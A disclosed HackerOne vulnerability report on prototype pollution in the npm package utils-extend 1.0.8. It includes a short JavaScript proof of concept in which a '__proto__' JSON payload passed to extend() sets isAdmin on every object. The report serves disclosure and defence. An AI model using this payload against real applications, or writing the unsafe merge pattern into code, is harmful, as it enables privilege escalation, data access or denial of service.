 # [utils-extend] Prototype pollution 

## Report Details
- **Report ID**: 801522
- **URL**: https://hackerone.com/reports/801522
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2020-02-21T07:35:31.190Z
- **Disclosed**: 2020-04-02T08:57:57.394Z

## Reporter
- **Username**: tuo4n8
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
> NOTE! Thanks for submitting a report! Please replace *all* the [square] sections below with the pertinent details. Remember, the more detail you provide, the easier it is for us to triage and respond quickly, so be sure to take your time filling out the report!

I would like to report `prototype polution` in `utils-extend`
It allows an attacker to modify the prototype of a base object which can vary in severity depending on the implementation (DoS, access to sensitive data, RCE).

# Module

**module name:** utils-extend
**version:** 1.0.8
**npm page:** `https://www.npmjs.com/package/utils-extend`

## Module Description

> Extend nodejs util api, and it is light weight and simple.

## Module Stats

[1] weekly downloads : **129,956**

# Vulnerability

## Vulnerability Description

## Steps To Reproduce:

1. npm install --save utils-extend
2. create file index.js with content :

```javascript
const { extend } = require('utils-extend');
const payload = '{"__proto__":{"isAdmin":true}}'
const emptyObject = {}
const pollutionObject = JSON.parse(payload);
extend({}, pollutionObject)
console.log(emptyObject.isAdmin)  // true
```

3. run `node index.js` => true 

# Wrap up

> Select Y or N for the following statements:

- I contacted the maintainer to let them know: [Y/N] : N
- I opened an issue in the related repository: [Y/N]  : N

## Impact

Can result in: dos, access to restricted data, rce (depends on implementation)

## Attachments
- demo.jpg
